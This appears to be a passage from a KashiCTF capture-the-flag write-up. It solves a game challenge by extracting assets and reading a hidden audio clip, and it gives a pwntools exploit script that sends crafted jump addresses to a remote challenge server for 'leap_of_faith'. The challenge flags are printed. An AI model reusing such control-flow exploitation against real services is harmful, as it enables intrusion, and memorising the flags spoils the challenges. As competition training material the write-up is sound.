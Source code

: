 
**Flag: KashiCTF{N07_1N_7H3_G4M3}**


## Game 3 - CatSeabank

In this challenge we **just** play game.
![image](https://hackmd.io/_uploads/rys3Pbj5Jx.png)
Use this bug to have a lot of money 

![image](https://hackmd.io/_uploads/SyYpPZi5kg.png)
Then pay him 2000 and then you can hear a sound like
```
The echoes of truth lie not in the open, but within the very fabric of this world.
The architects have found their secrets inside the vessel's core, hidden among its many forms.
Dig through the buried artifacts, extract what is unseen, and seek the whispers trapped in waves.
Only by unearthing the lost fragments, those.
```

Then i use tool Assetripper and open folder **CTF_Data** 
![image](https://hackmd.io/_uploads/ryqW_-s51g.png)

Then i see a very sus audio 
![image](http![image](https://hackmd.io/_uploads/B1Fz_Wiqyl.png)
s://hackmd.io/_uploads/Sy7VUg951g.png)

Download it then open it in audacity
![image](https://hackmd.io/_uploads/rJU7ubj9yg.png)
**KashiCTF{1t_Wa5_Ju5t_4_Tutori4l_RIP}**
# Pwn	

## leap_of_faith

![image](https://hackmd.io/_uploads/rkLqDbsqyl.png)

![image](https://hackmd.io/_uploads/rykjvWoqke.png)
What if we jump to main+1 many time ? Is rsp will be subtracted ?. I realized that we can control **rsp**.
Following this flow, I just brute force with luck and it was right 
```python3 
from pwn import * 

# p = process(b'./chall')
p = remote(b'kashictf.iitbhucybersec.in', 15806)

# gdb.attach(p)
# input()
for i in range (3):
    p.sendlineafter(b' : ', b'0x40125e')

# input()

p.sendlineafter(b': ', b'0x4011ba')

p.interactive()
```
